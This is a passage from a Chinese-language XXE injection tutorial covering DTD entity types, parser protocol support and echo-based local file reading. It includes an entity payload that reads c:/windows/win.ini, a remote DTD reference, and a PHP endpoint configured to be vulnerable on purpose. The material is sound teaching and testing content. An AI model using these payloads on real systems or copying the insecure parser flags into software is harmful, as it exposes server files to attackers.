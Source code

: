 ```xml-dtd
</creds>


```

这样对引用的外部实体资源所做的任何更改都会在XML文档中在自动更新

还有一种引用方式可以引用公用DTD，语法如下

```
<!DOCTYPE 根元素名称 PUBLIC  “DTD标识名”  “公用DTD的URI”>
//统一资源标志符（URI）在电脑术语中是用于标志某一互联网资源名称的字符串。URI可被视为定位符（URL），名称（URN）或两者兼备。
```

**2.从另一个角度实体可以分为通用实体和参数实体**

- 通用实体

用 &实体名; 引用的实体，在DTD 中定义，在 XML 文档中引用

```xml-dtd
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE updateProfile [<!ENTITY file SYSTEM "file:///c:/windows/win.ini"> ]> 
<updateProfile>  
    <firstname>Joe</firstname>  
    <lastname>&file;</lastname>  
    ... 
</updateProfile>
```

- 参数实体

1. )使用 `% 实体名`(**这里面空格不能少**) 在 DTD 中定义，并且只能在 DTD 中使用 `%实体名;` 引用，同时引用是解析的，替换文本变成DTD的一部分
2. 和通用实体一样，参数实体也可以外部引用
3. 只有在 DTD 文件中，参数实体的声明才能引用其他实体

```xml-dtd
<!ENTITY % an-element "<!ELEMENT mytag (subtag)>"> 
<!ENTITY % remote-dtd SYSTEM "http://somewhere.example.org/remote.dtd"> 
%an-element; %remote-dtd;   //在DTD中引用
```

**3.不同程序支持的协议不同**

- LIBXML2：file,http,ftp
- PHP:file http ftp php cpmpress.zlib compress.bzip2 data glob phar
- Java:http https ftp file jar netdoc mailto gopher
- .NET:file http https ftp

### 0x02XXE利用

### **1.有回显读取本地敏感文件**

服务能接收并解析 XML 格式的输入并且有回显的时候，我们就能输入我们自定义的 XML 代码，通过引用外部实体的方法，引用服务器上面的文件

```
//服务器上xml.php

<?php

    libxml_disable_entity_loader (false);
    $xmlfile = file_get_contents('php://input');
    $dom = new DOMDocument();
    $dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;

?>
```
